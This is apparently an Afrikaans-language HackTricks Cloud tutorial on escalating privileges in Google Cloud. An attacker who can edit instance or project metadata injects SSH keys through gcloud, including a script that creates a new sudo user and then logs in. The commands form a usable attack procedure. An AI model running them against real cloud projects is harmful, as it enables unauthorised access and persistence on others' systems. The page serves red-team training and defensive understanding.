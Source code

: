 # GCP - Voeg Aangepaste SSH Metadata By

## GCP - Voeg Aangepaste SSH Metadata By

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Wysig die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata-wysig op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

#### **Inkorporering van SSH Sleutels in Aangepaste Metadata**

Op GCP, **Linux stelsels** voer dikwels skripte uit vanaf die [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld** die instansie metadata-eindpunt na te gaan vir **opdaterings aan die geautoriseerde SSH publieke sleutels**.

Daarom, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon laat vind 'n nuwe publieke sleutel, wat verwerk en **geïntegreer sal word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys` lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo` toestemmings skep**, afhangende van die sleutel se formaat. En die aanvaller sal in staat wees om die gasheer te kompromitteer.

#### **Voeg SSH sleutel by bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH Sleutels op die Instansie:**
*   Voer die opdrag uit om die instansie en sy metadata te beskryf om bestaande SSH sleutels te vind. Die relevante afdeling in die uitvoer sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Let op die formaat van die SSH sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n dubbelepunt.
2. **Bereid 'n Tekslêer voor vir SSH Sleutel Metadata:**
* Stoor die besonderhede van gebruikersname en hul ooreenstemmende SSH sleutels in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwe bygevoeg word.
3. **Genereer 'n Nuwe SSH Sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**
*   Gebruik die `ssh-keygen` opdrag om 'n nuwe SSH sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teiken gebruikersnaam.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Voeg die nuwe publieke sleutel by `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.
4. **Werk die Instansie se SSH Sleutel Metadata Op:**
*   Pas die opgedateerde SSH sleutel metadata toe op die instansie met die `gcloud compute instances add-metadata` opdrag.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Toegang tot die Instansie met die Nuwe SSH Sleutel:**
*   Verbind met die instansie met SSH met die nuwe sleutel, en toegang die skulp in die konteks van die teiken gebruiker (`alice` in hierdie voorbeeld).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH sleutel by**

As daar geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo` toestemmings sal ontvang:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die bereik van SSH-toegang tot verskeie Virtuele Masjiene (VM's) in 'n wolkomgewing te verbreed deur **SSH sleutels op projekvlak toe te pas**. Hierdie benadering laat SSH-toegang toe tot enige instansie binne die projek wat nie eksplisiet projekwye SSH-sleutels geblokkeer het nie. Hier is 'n samegevatte gids:

1. **Pas SSH Sleutels op die Projekvlak toe:**
*   Gebruik die `gcloud compute project-info add-metadata` opdrag om SSH sleutels van `meta.txt` by die projek se metadata te voeg. Hierdie aksie verseker dat die SSH sleutels oor alle VM's in die projek erken word, tensy 'n VM die "Blokkeer projekwye SSH-sleutels" opsie geaktiveer het.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instansies met Projekwye Sleutels:**
* Met projekwye SSH sleutels in plek, kan jy SSH in enige instansie binne die projek. Instansies wat nie projekwye sleutels blokkeer nie, sal die SSH-sleutel aanvaar, wat toegang verleen.
* 'n Direkte metode om in 'n instansie te SSH is deur die `gcloud compute ssh [INSTANCE]` opdrag te gebruik. Hierdie opdrag gebruik jou huidige gebruikersnaam en die SSH sleutels wat op projekvlak gestel is om toegang te probeer verkry.

## Verwysings

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
